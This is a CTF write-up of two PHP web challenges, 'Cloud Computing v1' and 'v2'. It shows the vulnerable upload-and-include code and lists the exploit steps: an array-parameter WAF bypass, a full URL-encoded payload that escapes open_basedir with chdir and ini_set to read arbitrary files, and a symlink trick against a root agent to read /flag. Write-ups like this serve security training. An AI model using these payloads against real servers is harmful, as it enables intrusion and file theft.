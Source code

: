 ### Cloud Computing v1

http://pwnable.org:47780
```lua=php
<?php //index.php

error_reporting(0);

include 'function.php';

$dir = 'sandbox/' . sha1($_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT']) . '/';

if(!file_exists($dir)){
    mkdir($dir);
}

switch ($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
    break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        if (waf($data)) {
            die('waf sucks...');
        }
        file_put_contents("$dir" . "index.php", $data);
    case 'shell':
        initShellEnv($dir);
        include $dir . "index.php";
    break;
    default:
        highlight_file(__FILE__);
    break;
}
```

- in `action=upload` we can write php and include it
- use `data[]=<?php ?>` to bypass waf
- use `var_dump(get_defined_functions())` to check defined function
- find `ini_set, mkdir, chdir` is defined => `chdir('..')` to bypass `open_baseurl`
- `http://pwnable.org:47780/?action=upload&data[]=%3C?php%20error_reporting(E_ALL);show_source($dir.%27index.php%27);chdir($dir);mkdir(%27sub%27);chdir(%27sub%27);ini_set(%27open_basedir%27,%27..%27);chdir(%27..%27);chdir(%27..%27);chdir(%27..%27);chdir(%27..%27);chdir(%27..%27);chdir(%27..%27);ini_set(%27open_basedir%27,%27/%27);var_dump(scandir(%27/%27));%20?%3E` => scandir('/')
- use `file_get_contents(php://filter/convert.base64-encode/resource=/flag)` to download flag.img
- find an png in flag.img - todo
- `flag{do_u_like_cloud_computing}
`

### Cloud Computing v2
- `chdir` is disabled 
- there is an agent listening at 127.0.0.1 with root privilege
- reverse agent - todo
- 3 api: init, read, scan
    - init?dir=<dir>: create a config.json file with `{"ban":"flag"}` if the <dir> is legal
    - read?target=<target>&dir=<dir>: check if there is an config file under <dir> own by root, parse config.json, if no characters in "ban" appear in <target>, print base64(<target>)
    - scan?dir=<dir>:clear <dir>*.php if <dir> is legal
- init => use `symlink` to create `a.php` link to `config.json` => scan => clear config.json => read `/flag`